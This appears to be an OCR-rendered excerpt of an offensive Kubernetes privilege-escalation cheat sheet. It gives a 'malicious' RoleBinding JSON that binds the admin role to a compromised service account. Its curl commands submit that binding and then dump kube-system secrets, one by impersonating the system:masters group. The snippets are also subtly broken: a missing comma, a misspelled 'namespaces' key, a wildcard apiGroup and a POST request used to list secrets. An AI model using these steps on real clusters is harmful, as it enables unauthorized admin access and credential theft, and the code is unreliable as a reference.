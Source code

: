#### Privilege Escalation Via Get/Patch Rolebindings

The privilege to create Rolebindings allows a user to bind roles to a service account.  This privilege can potentially lead to privilege escalation because it allows the user to bind admin privileges to a compromised service account.

**Step 1.** Create a malicious role binding JSON configuration file that binds the admin role to the compromised service account

malicious-RoleBinding.json:

```
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespaces": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "sa-comp"
            "namespace": "default"
        }
    ]
}
```

**Step 2.** Send the evil JSON file to the API server to apply the configuration

```
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings -d @malicious-RoleBinding.json
```

**Step 3.** After the admin role is bound to the service account, list all secrets

```
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

#### Privilege Escalation Via Impersonation

```
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" -H "Impersonate-Group: system:masters" -H "Impersonate-User: null" -H “Accept: application/json” https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```
